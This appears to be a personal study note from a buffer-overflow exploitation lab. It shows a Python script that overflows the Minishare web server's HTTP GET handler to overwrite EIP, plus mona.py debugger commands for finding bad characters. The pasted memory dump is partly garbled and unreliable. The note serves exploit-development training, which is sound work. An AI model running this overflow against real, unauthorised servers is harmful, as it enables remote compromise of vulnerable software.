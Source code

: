Using [[2._Minishare]] as example



Starting from 

![[2._Minishare#FuzzerC py]]

Now we will use mona to automate the bad characters process

```
!mona config -set workingfolder C:\Documents and Settings\Administrator\Desktop\%p
```

```
!mona bytearray
```

2 files are now created in the working folder.  Transfer the bin file to Kali.

Place the bytearray file in with your fuzzers.

#### Fuzzer-Mona.py
---
```
import socket, sys

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

sock.connect((sys.argv[1], 80))

buffer = "GET "
buffer += "A" * 1787
buffer += "BBBB"

buffer += open("bytearray.bin", "rb").read()

buffer += "C" * 300


buffer += " HTTP/1.1\r\n\r\n"


sock.send(buffer)
sock.close()
```


When we sent FuzzerC.py, we see the C's line up with 013F3908.

Notice, we see no characters yet...

```
013F38FO 41414141 8899
013F38P4 414141410088
|013F38F8
41414141 8898
913F38FC 41414141 8898
013139ସମ 41414141 9999
01313904 42424242 BBBB
013F3908
ସମସସସସପA
013P390C 013F9B68 hc?@ ASCII "GET AAAAAAAAAAAAAAA
013F3910 ସମସ029ସସ
913F3914 ସମସସମସସ
013F3918 ସମସସେସସ ସ
013F391C ସମସମସସ
```


We going to tell mona to compare byte array with what we see at location 013F3908.

```
!mona compare -f C:\Documents and Settings\Administrator\Desktop\minishare\bytearray.bin -a 013F3908
```

here we see the bad character found was 00.  Now we just re-generate the array excluding 00.

```
!mona bytearray -cpb "\x00"
```


